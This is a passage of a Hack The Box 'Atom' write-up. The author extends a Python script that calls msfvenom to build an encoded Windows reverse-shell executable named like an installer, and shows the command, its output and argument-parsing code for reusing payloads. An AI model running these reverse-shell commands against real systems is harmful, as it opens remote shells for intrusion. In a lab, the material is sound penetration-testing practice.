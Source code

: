 Which seemed to work:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve 10.10.10.237
IP Address on interface tun0: 10.10.14.39
Running command: msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=9001 -e x86/shikata_ga_nai -f exe -o "to-serve/heedv1'Setup1.0.1.exe"
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: to-serve/heedv1'Setup1.0.1.exe
Payload saved at: to-serve/heedv1'Setup1.0.1.exe
Size: 73802
```

I verified that the output of the `stat` command is the same:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ stat -c%s "to-serve/heedv1'Setup1.0.1.exe"
73802
```

Awesome.

## Allowing Payload Reuse

I wanted to add a feature to use an existing payload rather than generating it each time. First, check the payload is provided:

```python
parser.add_argument("-p", "--payload", help="The path to an existing payload. Specify this if you don't want to generate one with msfvenom", dest="payload")

...

if args.payload is not None:
        payload_path = Path(args.payload)

        print("Payload Path: " + payload_path)
```

And generate with `msfvenom` if not:

```python
#get payload options, taking --payload as priority over --msf_payload if both provided
    if args.payload is not None:
        payload_path = Path(args.payload)

        print("Payload Path: " + payload_path)

    else:
        if args.msf_payload is not None:
            #get payload to use with msfvenom
            msf_payload = args.msf_payload

            print("Using payload " + str(msf_payload) + " with msfvenom")
        
        else:
            #default payload
            msf_payload = "windows/shell_reverse_tcp"

            print("No --msf_payload or --payload flag provided. Using default windows/shell_reverse_tcp payload and generating with msfvenom")
```